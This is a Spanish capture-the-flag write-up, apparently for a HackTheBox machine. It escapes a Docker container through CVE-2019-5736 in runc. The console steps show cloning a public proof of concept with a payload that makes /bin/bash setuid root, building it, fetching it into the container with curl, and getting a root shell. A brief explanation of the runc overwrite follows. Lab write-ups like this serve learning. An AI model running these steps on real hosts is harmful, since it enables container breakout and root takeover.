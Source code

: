 Encuentro en google [esto](https://github.com/Frichetten/CVE-2019-5736-PoC) al poner ```docker 18.06.0-ce exploits github```

```console
noah@thenotebook:~$ docker --version
Docker version 18.06.0-ce, build 0ffa825

└─$ git clone https://github.com/Frichetten/CVE-2019-5736-PoC 
└─$ cd CVE-2019-5736-PoC; cat main.go
# var payload = "#!/bin/bash \n chmod u+s /bin/bash"
└─$ go build -ldflags "-s -w" main.go
└─$ upx main # reducir su tamaño

noah@thenotebook:/tmp$ curl -s http://10.10.14.16/main -O
noah@thenotebook:/tmp$ chmod +x main
noah@thenotebook:/tmp$ hostname -I
10.10.10.230 172.17.0.1

noah@thenotebook:/tmp$ python3 -m http.server 6666
root@0f4c2517af40:/tmp# curl -s http://172.17.0.1:6666/main -O
root@0f4c2517af40:/tmp# chmod +x main
```
Ejecutamos el payload:

```console
root@e9b5f5fae303:/opt/webapp# ./main
[+] Overwritten /bin/sh successfully
noah@thenotebook:/tmp$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh  
No help topic for '/bin/sh'
noah@thenotebook:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
noah@thenotebook:/tmp$ bash -p
bash-4.4# 4
```
--------------------------
# Extra: como funciona el exploit

[Fuente](https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d)
```
El exploit se aprovecha de "runc" que es el sistema que corre los contenedores.
El ataque se realiza o cuando inicias un contenedor o te conectas a uno en ejecucion. Consiste en remplazar
el binario de destino (ej /bin/bash) del contenedor con uno malicioso que apunta hacia runc.

El malicioso que sustituye a /bin/bash apunta al interprete #!/proc/self/exe que es un enlace simbolico 
al "docker exec/runC"  

Como el kernel no permite escritura y ejecucion a la vez el script abre un descriptor de archivo en /proc/self/exe
usando "O_PATH" y lo reabre con "O_WRONLY" a traves de /proc/self/fd/PID_de_runc por tanto se separan los procesos

Cuando ejecuts runC este se reescribe y ejecuta a la vez por el #!/proc/self/exe. 
```
El tema con este exploit esque si no hace un backup rutinario de runC este al sovreescribirse se destruye y el 
sistema no puede correr dockers más.
